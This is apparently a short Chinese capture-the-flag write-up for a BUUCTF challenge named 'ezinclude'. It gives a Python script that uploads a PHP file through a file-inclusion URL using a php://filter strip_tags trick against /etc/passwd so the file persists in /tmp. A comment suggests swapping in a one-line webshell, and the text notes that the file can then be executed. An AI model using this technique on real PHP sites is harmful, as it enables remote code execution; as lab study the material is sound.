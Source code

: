 可以通过脚本来实现传参+上传文件

```python
import requests
from io import BytesIO

url = "http://faf05418-21ed-4937-a2e0-0ba79a558d01.node4.buuoj.cn:81/flflflflag.php?file=php://filter/string.strip_tags/resource=/etc/passwd"

phpfile = "<?php phpinfo();?>"  #这里是测试,换成一句话木马也可
filedata = {
    "file": phpfile
}

bak = requests.post(url=url, files=filedata)
print(bak.text)
```

运行之后,只要直到`/tmp`目录下被上传的文件名,就能够访问并执行了

题目:[ezinclude](a65f6ebf.html)




























